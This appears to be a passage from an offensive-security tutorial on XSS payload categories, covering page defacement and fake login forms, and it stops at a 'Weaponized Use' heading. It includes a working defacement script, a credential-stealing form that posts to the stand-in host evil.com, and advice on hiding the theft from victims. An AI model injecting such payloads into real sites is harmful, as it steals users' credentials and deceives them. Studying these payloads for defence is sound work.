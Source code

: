 ## 🧨 SECTION: **Payloads for XSS Attacks**

You already know XSS gives you JavaScript execution. But now the question is:

> *What can I do with it?*

### 🔥 There are **5 Major Payload Categories**:

---

### 1. ⚠️ **Virtual Defacement**

**Goal:** Change the visual appearance of the page without touching the server
**Logic:** Inject fake headlines, images, warnings, or full redesigns via JS/HTML/CSS

#### 💀 Payload Example:

```html
<script>
document.body.innerHTML = "<h1 style='color:red;'>🔥 HACKED BY 1337 CREW 🔥</h1>";
</script>
```

#### 🔍 Real-World Use:

* Fake security warnings ("Your session expired, login again")
* FUD manipulation (fake financial reports on trading platforms)
* Social engineering (inject fake "payment successful" banners)

> 💡 Think like: *Front-end phishing* inside a trusted UI.

---

### 2. 👻 **Trojan Functionality**

**Goal:** Trick the user into submitting sensitive data to attacker
**Logic:** Inject **legit-looking forms** that steal input behind the scenes

#### 💀 Payload Example: Fake login form

```html
<form action="http://evil.com/steal" method="POST">
  Username: <input name="u"><br>
  Password: <input type="password" name="p"><br>
  <input type="submit" value="Login">
</form>
```

#### 🎭 Advanced Version:

* Submit stolen creds to attacker
* Then auto-log user into real site using stored credentials to avoid suspicion

#### 🧠 Weaponized Use:
